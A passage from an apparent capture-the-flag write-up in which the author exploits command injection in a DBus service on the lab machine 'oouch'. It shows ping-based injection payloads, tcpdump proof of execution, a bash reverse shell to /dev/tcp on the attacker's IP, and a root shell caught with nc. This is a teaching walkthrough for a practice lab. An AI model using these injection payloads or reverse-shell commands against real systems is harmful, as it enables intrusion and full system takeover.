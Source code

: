 We can now run our exploit script and play with the DBus connection.

```bash
www-data@aeb4525789d8:/dev/shm$ python3 exploit.py 
DBus>
```

Let us try some common code-injection payloads to get a ping-back to our machine.

```bash
www-data@aeb4525789d8:/dev/shm$ python3 exploit.py 
DBus> ; ping -c 4 10.10.14.29 #
Response from dbus: Carried out :D
DBus> & ping -c 4 10.10.14.29 #
Response from dbus: Carried out :D
DBus> $(ping -c 4 10.10.14.29)
Response from dbus: Carried out :D
```

Either of these inputs gives us blind code-execution (proven by pingback).

```bash
root@darkness:~# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:11:00.696357 IP oouch.htb > 10.10.14.29: ICMP echo request, id 5627, seq 1, length 64
16:11:00.696388 IP 10.10.14.29 > oouch.htb: ICMP echo reply, id 5627, seq 1, length 64
16:11:01.696870 IP oouch.htb > 10.10.14.29: ICMP echo request, id 5627, seq 2, length 64
16:11:01.696932 IP 10.10.14.29 > oouch.htb: ICMP echo reply, id 5627, seq 2, length 64
16:11:02.698446 IP oouch.htb > 10.10.14.29: ICMP echo request, id 5627, seq 3, length 64
16:11:02.698497 IP 10.10.14.29 > oouch.htb: ICMP echo reply, id 5627, seq 3, length 64
16:11:03.699771 IP oouch.htb > 10.10.14.29: ICMP echo request, id 5627, seq 4, length 64
16:11:03.699799 IP 10.10.14.29 > oouch.htb: ICMP echo reply, id 5627, seq 4, length 64
```

Now that we have verified code-execution, let us try to get a reverse-shell next.

```bash
www-data@aeb4525789d8:/dev/shm$ python3 exploit.py 
DBus> $(bash -c 'bash -i >& /dev/tcp/10.10.14.29/443 0>&1')
Response from dbus: Carried out :D
DBus>
```

Injecting the command, we get a reverse-shell returned.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.177.
Ncat: Connection from 10.10.10.177:42254.
bash: cannot set terminal process group (2569): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root#
```
